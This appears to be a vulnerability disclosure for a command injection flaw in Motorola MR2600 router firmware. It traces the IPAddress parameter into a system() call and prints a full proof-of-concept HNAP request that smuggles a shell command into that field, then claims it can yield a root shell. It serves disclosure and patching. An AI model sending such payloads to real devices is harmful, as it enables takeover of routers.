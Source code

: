 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522104816228](img/image-20220522104816228.png)

Program through/SaveNetworkParams IPAddress parameters for content passed to v6

![image-20220522104833168](img/image-20220522104833168.png)

After that, the sprintf function is used to format V6 into V39, and finally the system function is used to execute the content in V39, which has command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveNetworkParams xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress> && ls > /tmp/456 && echo 1</IPAddress>
</SaveNetworkParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)